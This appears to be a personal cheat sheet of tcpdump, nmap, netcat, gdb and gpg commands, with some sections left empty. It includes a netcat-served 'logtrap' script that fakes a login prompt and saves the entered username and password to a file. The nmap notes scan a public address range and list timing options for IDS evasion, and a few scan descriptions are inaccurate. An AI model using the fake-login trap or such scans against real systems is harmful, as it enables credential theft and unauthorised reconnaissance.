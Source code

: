 # Attacker Tools and Security Tools
1. Tcpdump (Attacker and Security)  
   ```
   1) $sudo tcpdump port 23 -e -n -vvv -X -i lo -c 33 -w filename
   2) $sudo tcpdump arp -n -vvv -X -c6     #icmp as well
   3) tcpdump filter --<protocol header> [offset:length] <relation> <value>  
      (1) $tcpdump 'ip[9] = 1'  # find ICMP records
      (2) $tcpdump 'ip[0] & 0x0f > 5' or `$tcpdump 'ip[0] & 15 > 5'` #TOS
      (3) $tcpdump 'tcp'    #collect TCP records
      (4) $tcpdump 'ip[19] = 0xff' OR $tcpdump 'ip[19] = 255'
      (5) $?
   ```
2. Nmap (Attacker)
   ```
   1) $time nmap -sV -p 1-200 127.0.0.1 -T 1  #record time, show service/Version info, port 1-200, localhost
   2) -sS (TCP SYN scan),  
      -sT (TCP connection scan),  
      -sU (UDP scans),
      -sN (TCP NULL scan),
      -sF (TCP FIN scan),
      -sA (TCP ACK scan),
      -sW (TCP Window scan),
      -sX (TCP Xmas scan: including FIN, PSH and URG),
      -sM (TCP Mainon scan: including NULL, FIN, and Xmas)
      -sI (Idle scan)
      -sO (IP protocol scan)
      -sn (ping scan, no port scan)
      -Pn (no ping, treat all host online)
      -b (FTP bounce scan)
      -oN/-oX/-oS/-oG <file>(output in nomal,XML,script,Grepable format)
      -oA <basename>(output in 3 major formats)
      -T (paranoid0|sneaky1|polite2|normal3|aggressive4|insane5) (1,2 for evation of IDS)
   3) $time nmap -sX -p 0-100 199.17.59.234/24 -T 5  #scan more IP
   ```
3. Netcat (Attacker) (Swiss Army Knife) (netcat,ncat,nc)
   ```
   1) $nc -v -o xxx2 127.0.0.1 22    #output a file
   2) $nc -v -c 'echo this is a test' -l -p 1235 -t   #char string, listen TCP, port 1235, answer telnet
      $telnet 127.0.0.1 1235
   3) $nc -vv -l -c './logtrap' localhost -p 1236 -t -o xxzz  #run a script file
      $sudo tcpdump port 1236 -n -vvv -X -i lo -c 66 -s 200
      $netstat -apeen | grep nc    #grab pid
      $ps -aux | grep <pid>
      $telnet localhost 1236
      $sudo netstat -apeen | grep 1236
   4) $nc -l 1237 | nc 127.0.0.1 111&  #redirect port ?
   ```
   Script file: logtrap
   ```
   cat /etc/motd
   echo welcome to Hermes
   echo login:
   read number
   echo
   echo $number > ~/passtrap
   echo passwd:
   read number
   echo
   echo $number >> ~/passtrap
   echo
   echo The system is resyncing try again later.
   ```

4. gdb (Attacker and Security) --dump data from register  
   ```
   1) $./add # run program and keep it running
      $ps -al | grep add # find pid (say 11334)
   2) $gdb --pid 11334
   	  $info registers                #rdx, rdi
   	  $x rsi   OR $x/i $rsi
   	  $x/64ca <r8 address>
   3) $cat /proc/pid#/maps | more    # check useful memory addresses, using another putty session
   4) $dump memory ~/register583 0x777777777 0x777777877  #dump data into a file
   5) $detach pid#       #disconnect the process, **otherwise we cannot kill the process**, attach pid#
   6) $quit
   7) $xxd ~/register583 # check the primary data
   ```
5. dd (Data Dump)

6. strace (Security debug tool)  http://www.thegeekstuff.com/2011/11/strace-examples
   1) 

7. Ramdisk (for better performace)

8. GPG (security encryption)
   ```
   $gpg -c zzz483     #**3 times for more secure**
   $ls -l zzz483*
   $file zzz483.gpg
   $cat zzz483.gpg
   $xxd zzz483.gpg
   $gpg -d zzz483.gpg
   ```
9. 